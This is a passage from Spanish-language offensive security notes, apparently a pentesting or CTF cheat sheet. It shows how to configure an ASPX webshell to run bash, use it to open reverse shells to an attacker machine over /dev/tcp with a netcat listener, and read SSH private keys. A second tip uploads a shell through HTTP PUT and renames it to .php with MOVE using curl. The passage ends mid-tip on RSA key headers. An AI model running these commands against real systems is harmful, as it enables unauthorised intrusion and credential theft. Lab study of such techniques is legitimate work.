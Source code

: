 https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/webshell.aspx

configuramos en :

psi.FileName="bash"
ps.Arguments="-c "+arg;

intrusión

accedemos a la webshell

http://IP-VICTIMA:port/webshell.aspx

nos aparece un input con el label comand

y ejecutamos:

'bash -c "bash -i >& /dev/tcp/IP-KALI/PORT 0>&1"'

o

'sh -i >& /dev/tcp/IP-KALI/PORT 0>&1'

en kali:

nc -lnvp PORT

- Podemos también ver otros archivos como id_rsa si se está ejecutando ssh en el sistema.

'cat .ssh/id_rsa'

'ls -la'

-------------------------------------------------------------------------------

## 92.- Cuando ejecutamos un escaneo con nmap, y tenemos puerto http abiertos, hay que fijarnos que métodos podemos ejecutar.

si es PUT podemos subir una reverse shell o webshell

EJEMPLO

curl -X PUT --upload-file test.txt http://IP-VÍCTIMA:8080


si no me permite suir un revshell.php y me sale un 404 Not Found y está tamién que se puede usar el método MOVE, entonces subimos un revshell con la extensión .txt y con el método MOVE le cambiamos la extensión.

cambiar la extensión

curl -X MOVE -H "Destination: http://IP-VÍCTIMA:8080/shell.php" http://IP-VÍCTIMA:8080/shell.txt

-------------------------------------------------------------------------------

## 93.- La primera línea de un id_rsa es:

-----BEGIN RSA PRIVATE KEY-----

y la última:
